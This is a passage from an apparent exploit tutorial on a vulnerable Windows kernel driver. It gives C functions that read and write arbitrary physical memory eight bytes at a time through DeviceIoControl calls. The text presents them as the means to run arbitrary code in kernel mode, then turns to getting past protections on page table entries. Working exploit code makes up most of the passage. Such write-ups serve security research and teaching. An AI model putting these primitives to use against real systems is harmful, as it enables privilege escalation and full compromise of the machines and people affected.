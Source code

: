 In both scenarios, we can modify or read 8 bytes of memory at a time. The following C code provides an example of how these read and write operations can be implemented:

```C
DWORD64 readPhysMem8bPrimitive(HANDLE driver, DWORD64 physicalAddress) {

	DWORD lpBytesReturned;
	char iBuf[8];
	char oBuf[8];

	memcpy(&iBuf[0], &physicalAddress, 0x8);

	// calling kernel function MmMapioSpace to map physical address into user space
	BOOL status = DeviceIoControl(
		driver,
		IOCTL_CODE_READ_4B,
		iBuf,
		0x8,
		oBuf,
		0x8,
		&lpBytesReturned,
		NULL
	);

	return (DWORD64)(*(DWORD64*)oBuf);
}
```

```C
void writePhysMem8bPrimitive(HANDLE driver, DWORD64 physicalAddress, DWORD64 bPayload) {

	DWORD lpBytesReturned;

	char iBuf[0x10];

	memcpy(&iBuf[0], &physicalAddress, 0x8);
	memcpy(&iBuf[8], &bPayload, 0x8);

	// calling kernel function MmMapioSpace to map physical address into user space
	BOOL status = DeviceIoControl(
		driver,
		IOCTL_CODE_WRITE_8B,
		iBuf,
		0x10,
		NULL,
		0,
		&lpBytesReturned,
		NULL
	);
}
```

With these two functions, we now have the capability to exploit our driver and execute arbitrary code in kernel mode. While this approach is effective, there are limitations to consider. Since we cannot directly modify critical data structures like Page Table Entries (PTEs) or other sensitive components in ring 0, we need an alternative method. 
